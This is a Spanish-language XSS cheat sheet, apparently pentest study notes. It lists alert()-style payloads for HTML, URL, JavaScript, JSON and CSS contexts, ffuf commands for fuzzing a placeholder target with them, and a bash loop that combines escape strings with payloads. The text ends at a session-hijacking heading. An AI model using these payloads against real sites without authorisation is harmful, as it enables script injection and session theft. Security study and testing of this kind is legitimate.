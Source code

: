 ```html
&#x3C;img src=x onerror=alert(1)&#x3E;
&#x3C;svg/onload=alert(1)&#x3E;

# Codificación Decimal &#
&#60;script&#62;alert("XSS")&#60;/script&#62;
&#60;img src=x onerror=alert("XSS!")&#62;

# Inyección en URLs (javascript:)
javascript:alert("XSS!")
"><a href="javascript:alert('XSS!')">Click aquí</a>
"><iframe src=javascript:alert("XSS!")>
"><body onload=alert("XSS!")>
"><meta http-equiv="refresh" content="0;url=javascript:alert(1)">

# Inyección con data: URL
<img src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+" />
<script src="data:text/javascript,alert('XSS!')"></script>

# Inyección en JavaScript (eval(), setTimeout(), setInterval())
';alert("XSS");//
');alert("XSS");//
");alert("XSS");//"
'-alert("XSS")-'
`;alert("XSS");`
`;setTimeout("alert('XSS!')",1000);`

# Inyección en JSON
{"username": "<script>alert('XSS!')</script>"}
{"message": "';alert(1)//"}

# Inyección en CSS
body { background: url("javascript:alert('XSS!')"); }
body { background-image: url("data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+") }
```
- Todas estas inyecciones se podrían probar con herramientas como `ffuf` del siguiente modo:
	```bash
	# filtrando por tamaño: con -fs
	ffuf -w xss_payloads.txt:FUZZ -u "http://target.com/vuln?input=FUZZ" -fs 1234
	# filtrando por contenido en la respuesta: con -fs
	`ffuf -w xss_payloads.txt:FUZZ -u "http://target.com/vuln?input=FUZZ" -fr "Invalid input"`
	# Viendo si el payload aparece en la respuesta
	ffuf -w xss_payloads.txt:FUZZ -u "http://target.com/vuln?input=FUZZ" -mr "<script>"
	```
### Producto cartesiano de ficheros
Supongamos que tenemos un fichero con carácteres de escape `escapeXSS` y otro con payloads `payloadsXSS_tipoAlert` y queremos combinarlos para ganar combinaciones y aplicar fuzzing con `burpsuite` ó `ffuf`
```bash
while IFS= read -r p; do while IFS= read -r e; do echo "$e$p"; done < escapeXSS ; done < payloadsXSS_tipoAlert > combinados
```
Aunque si queremos utilizar `ffuf`, podemos obtener este mismo resultado con doble fuzzing, por ej: 
```bash
ffuf -w escapeXSS:ESC -w payloadsXSS_tipoAlert:PAY -u "http://target.com/?param=ESCPAY"
```
## Envíando cookies de sesión - session Hijacking